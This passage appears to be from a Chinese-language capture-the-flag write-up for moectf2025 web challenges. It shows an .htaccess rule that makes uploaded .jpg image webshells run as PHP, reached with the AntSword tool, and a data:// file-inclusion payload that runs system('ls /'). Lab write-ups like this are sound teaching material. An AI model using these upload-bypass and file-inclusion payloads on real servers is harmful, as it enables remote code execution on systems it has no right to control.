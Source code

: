 我们能够操作的只有 `/uploads` 这一特定目录，无法访问 httpd.conf 配置，故进一步了解 .htaccess 文件: http://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Server-side/Apache_Configuration_htaccess

我们的思路就是通过 `.htaccess` 重写服务器识别我们上传的图片马的逻辑，使我们对其的请求被识别为 PHP 页面。

```xml
<FilesMatch "\.(jpg|jpeg)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

先上传这个 `.htaccess` 文件，再上传 .jpg 格式的图片马，就能够顺利连接上蚁剑了

![image.png](../../assets/images/moectf2025wp/image_36.png)

## [竞争条件攻击] 15 第十五章 归真关·竞时净魔

占位：竞争条件攻击（Race Condition）思路记录。

---

## [文件包含 + data 伪协议] 16 第十六章 昆仑星途

简单的文件包含绕过，考察了 data 伪协议。构造payload: `?file=data://text/plain,<?php system('ls /'); ?>` 添加的 `.php` 会被排斥于 `>` 外。

![image.png](../../assets/images/moectf2025wp/image_46.png)

---